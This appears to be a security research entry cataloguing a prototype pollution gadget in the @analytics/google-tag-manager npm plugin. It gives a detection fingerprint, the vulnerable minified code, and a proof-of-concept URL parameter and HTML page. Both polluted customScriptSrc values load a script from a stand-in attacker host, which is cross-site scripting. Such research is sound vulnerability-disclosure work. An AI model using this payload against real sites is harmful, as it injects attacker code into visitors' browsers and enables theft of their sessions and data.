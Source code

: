 ## Google Tag Manager

### URL

https://www.npmjs.com/package/@analytics/google-tag-manager <br />
https://github.com/DavidWells/analytics/tree/87394ecd762454a54b515d243b07d9984de81059/packages/analytics-plugin-google-tag-manager

### JS Fingerprint

```js
return (typeof _analytics !== 'undefined' && typeof analyticsGtagManager !== 'undefined')
```

### Vulnerable code fragment

https://unpkg.com/@analytics/google-tag-manager@0.5.0/dist/@analytics/google-tag-manager.min.js <br />
https://github.com/DavidWells/analytics/blob/87394ecd762454a54b515d243b07d9984de81059/packages/analytics-plugin-google-tag-manager/src/browser.js

```js
initialize: function(e) {
    var t = e.config,
        a = t.containerId,
        n = t.dataLayerName,
        i = t.customScriptSrc,
        c = t.preview,
        u = t.auth;
    if (!a) throw new Error("No google tag manager containerId defined");
    if (c && !u) throw new Error("When enabling preview mode, both preview and auth parameters must be defined");
    var g = i || "https://www.googletagmanager.com/gtm.js";
    o(a) || (function(e, t, r, a, n) {
        e[a] = e[a] || [], e[a].push({
            "gtm.start": (new Date).getTime(),
            event: "gtm.js"
        });
        var o = t.getElementsByTagName(r)[0],
            i = t.createElement(r),
            d = "dataLayer" != a ? "&l=" + a : "",
            s = c ? "&gtm_preview=" + c + "&gtm_auth=" + u + "&gtm_cookies_win=x" : "";
        i.async = !0, i.src = "".concat(g, "?id=") + n + d + s, o.parentNode.insertBefore(i, o)
    }(window, document, "script", n, a), r = n, t.dataLayer = window[n])
}
```

### PoC

```
?__proto__[customScriptSrc]=//attacker.tld/xss.js
```

```html
<script src="https://unpkg.com/analytics/dist/analytics.min.js"></script>
<script src="https://unpkg.com/@analytics/google-tag-manager/dist/@analytics/google-tag-manager.min.js"></script>
<script>
    Object.prototype.customScriptSrc = '//attacker.tld/xss.js'
</script>
<script>
    var Analytics = _analytics.init({
        app: 'my-app-name',
        plugins: [
          analyticsGtagManager({
            containerId: 'GTM-123xyz'
          })
        ]
    })
</script>
```
